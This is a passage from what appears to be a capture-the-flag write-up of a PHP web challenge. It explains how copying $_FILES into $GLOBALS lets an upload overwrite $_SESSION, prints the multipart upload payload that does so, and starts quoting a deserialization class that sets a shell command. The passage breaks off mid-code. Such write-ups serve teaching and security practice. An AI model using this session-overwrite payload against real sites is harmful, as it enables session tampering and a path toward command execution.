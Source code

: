 ```php
                    finalize();
                    exit;
                }
                
            } else {
                echo "Bad hacker!<br>";
                finalize();
                exit;
            }
        }
    }
}
```



L5D_Upload is for file uploading. And you need to focus on two parts.



```php
foreach ($_FILES as $key => $value)
    $GLOBALS[$key] = $value;
/ ** skip ** /
if (move_uploaded_file($l5d_file["tmp_name"], $target_file)) {
    echo "File upload OK!<br>";
    $l5d_file = $target_file;
    $status = "upload_ok";
}
```



This makes the contents of $_FILES as global variable. Assume that $key will be \_SESSION and $value will be $\_SESSION's contents. This will overwrite our session. Fortunately, we use $\_SESSION['name'] and $\_FILES has also have $\_FILES['name']. This mean, we can overwrite $\_SESSION['name']  with file upload. So, the payload of overwriting session will be like this:



```
------WebKitFormBoundarysCJbH2RWHhDJhW4p
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"
Content-Type: application/octet-stream

aa
```



and the if we uploaded file successfully, there will be no `finalize()` function.

(Note: finalize() will destroy session.)



```php
class L5D_ResetCMD {

    protected $new_cmd = "echo 'I am new cmd!'";

    function __wakeup() {
        global $cmd;
        global $is_upload;
        global $status;
        $_SESSION['name'] = randstr(14);
        $is_upload = false;

        if(!isset($this->new_cmd)) {
            $status = "error";
            $error = "Empty variable error!";
            throw new Exception($error);   
```